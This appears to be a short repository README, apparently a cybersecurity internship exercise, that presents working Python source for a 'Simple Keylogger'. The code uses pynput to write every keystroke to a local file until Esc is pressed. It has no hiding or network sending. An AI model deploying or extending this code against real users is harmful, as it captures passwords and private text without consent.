 # PRODIGY_cs_04
Simple Keylogger
from pynput.keyboard import Key, Listener

# File to store the logged keys
log_file = "keylog.txt"

def on_press(key):
    try:
        # Log normal characters
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        # Log special keys
        with open(log_file, "a") as f:
            if key == Key.space:
                f.write(" ")
            elif key == Key.enter:
                f.write("\n")
            else:
                f.write(f" [{key}] ")

def on_release(key):
    # Stop listener on pressing 'Esc'
    if key == Key.esc:
        return False

# Start listening to the keyboard
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
